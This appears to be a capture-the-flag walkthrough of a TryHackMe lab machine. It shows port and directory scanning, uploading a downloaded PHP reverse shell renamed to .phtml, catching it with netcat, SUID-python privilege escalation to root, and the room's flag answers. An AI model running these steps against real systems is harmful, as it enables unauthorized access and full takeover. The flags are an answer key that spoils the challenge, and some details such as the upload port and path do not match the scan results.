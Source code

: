 # Reconnaissance

### Scan the machine, how many ports are open?
```
┌──(root💀kali)-[~]
└─# nmap -Pn <machine ip>
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```
> *Answer:* 2

### What version of Apache is running?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```
> *Answer:* 2.4.29

### What service is running on port 22?
> *Answer:* ssh

### What is the hidden directory?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "http://<machine ip>/"
...
[01:06:56] 200 -  732B  - /panel/
...
```
> *Answer:* 


<br><br>
# Getting a shell

### user.txt
```
┌──(root💀kali)-[~]
└─# curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php --output php-reverse-shell.php
```
To gain remote access to this machine, follow these steps:
  1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
  2. Rename this file to php-reverse-shell.phtml
  3. We're now going to listen to incoming connections using netcat. Run the following command: <b>nc -lvnp 1234</b>
  4. Upload your shell and navigate to <b>http://&lt;machine ip&gt;:3333/internal/uploads/php-reverse-shell.phtml&nbsp;</b> - This will execute your payload
  5. You should see a connection on your netcat session
```
┌──(root💀kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.39.82] 47886
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:16:30 up 17 min,  0 users,  load average: 0.00, 0.26, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
> *Answer:* THM{y0u_g0t_a_sh3ll}


<br><br>
# Privilege escalation

### Search for files with SUID permission, which file is weird?
```
$ find / -perm -u=s -type f 2> /dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```
> *Answer:* /usr/bin/python

### root.txt
```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
ls /root
root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n} 
```
> *Answer:* THM{pr1v1l3g3_3sc4l4t10n}

